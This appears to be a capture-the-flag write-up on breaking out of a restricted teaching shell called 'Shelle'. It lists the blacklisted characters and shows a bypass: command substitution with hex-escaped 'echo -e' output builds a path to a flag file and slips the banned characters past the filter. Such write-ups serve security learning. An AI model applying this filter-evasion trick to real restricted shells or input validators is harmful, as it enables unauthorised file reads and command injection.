


# Description 
```nc challenge.ctf.games 32217
Welcome to Shelle, a custom psuedo shell utility created by Professor Shelle in order to teach students about Linux terminals
Shelle is a restricted environment to prevent any misuse, Please Enter 'HELP' to know about available features, happy learning !

root@pshelle$
```
##  Analysis 


We need to break out of the shell,  The shell seems to be searching the user input for black-listed characters. Below are some of the special characters that I tested.
```
allowed Special Bash chars = [$,>,..]
banned  Bash chars= [|,/,<,&,;]
```
I discovered that the shell allows command substitution so I started looking through the man pages of the allowed commands. I noticed `echo -e` will allow hex characters which will print the corresponding ASCII character thus avoiding the blacklist.
```
cat $(echo -e "..\x2f..\x2f\x6f\x70\x74\x2f\x66\x6c\x61\x67\x2e\x74\x78\x74")
```
